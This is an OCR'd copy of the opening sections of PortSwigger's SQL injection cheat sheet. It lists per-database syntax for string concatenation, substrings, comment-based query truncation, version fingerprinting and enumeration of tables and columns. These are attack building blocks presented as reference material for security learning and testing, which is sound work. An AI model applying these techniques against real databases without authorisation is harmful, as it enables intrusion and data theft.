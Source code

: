 
[PORTSWIGGER SQL injection cheat sheet] https://portswigger.net/web-security/sql-injection/cheat-sheet

This SQL injection cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.

String concatenation
--------------------

You can concatenate together multiple strings to make a single string.

| Oracle  `'foo'||'bar'` |
| Microsoft  `'foo'+'bar'` |
| PostgreSQL  `'foo'||'bar'` |
| MySQL  `'foo' 'bar'` 
        `CONCAT('foo','bar')` |

Substring
---------

You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string `ba`.

| Oracle  `SUBSTR('foobar', 4, 2)` |
| Microsoft  `SUBSTRING('foobar', 4, 2)` |
| PostgreSQL  `SUBSTRING('foobar', 4, 2)` |
| MySQL  `SUBSTRING('foobar', 4, 2)` |

Comments
--------

You can use comments to truncate a query and remove the portion of the original query that follows your input.

| Oracle  `--comment\` |
| Microsoft  `--comment\
/*comment*/` |
| PostgreSQL  `--comment\
/*comment*/` |
| MySQL  `#comment`\
`-- comment` 
`/*comment*/` |

Database version
----------------

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

| Oracle | `SELECT banner FROM v$version\
SELECT version FROM v$instance\
` |
| Microsoft | `SELECT @@version` |
| PostgreSQL | `SELECT version()` |
| MySQL | `SELECT @@version` |

Database contents
-----------------

You can list the tables that exist in the database, and the columns that those tables contain.

| Oracle | `SELECT * FROM all_tables\
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'` |
| Microsoft | `SELECT * FROM information_schema.tables\
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'\
` |
| PostgreSQL | `SELECT * FROM information_schema.tables\
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'\
` |
| MySQL | `SELECT * FROM information_schema.tables\
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
